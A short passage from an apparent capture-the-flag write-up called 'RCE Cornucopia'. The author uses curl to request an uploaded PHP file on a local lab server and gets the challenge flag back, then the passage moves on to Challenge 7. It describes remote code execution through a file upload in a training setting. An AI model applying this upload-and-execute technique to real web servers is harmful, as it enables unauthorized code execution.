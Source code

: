 No metadata was found. Well I'm not surprised!

![RCE Cornucopia](/img/rce-cornucopia/rce6-003.png)

Checking the link...

```
# curl -v http://127.0.0.1:8086/uploads/420698287ca445da53fc584baca464ffa28bfa5421d9fd709df7b2785e6e3395.php
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8086 (#0)
> GET /uploads/420698287ca445da53fc584baca464ffa28bfa5421d9fd709df7b2785e6e3395.php HTTP/1.1
> Host: 127.0.0.1:8086
> User-Agent: curl/7.54.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Thu, 01 Nov 2018 03:46:31 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Vary: Accept-Encoding
< Content-Length: 145
< Content-Type: text/html; charset=UTF-8
< 
????flag{WhoeverPutThe"B"In"Subtle"WasClever}
* Connection #0 to host 127.0.0.1 left intact
Source: https://www.reddit.com/r/Showerthoughts/comments/1hwbdr/the_letter_b_in_the_word_subtle_is/
```

Booyah.

# Challenge 7
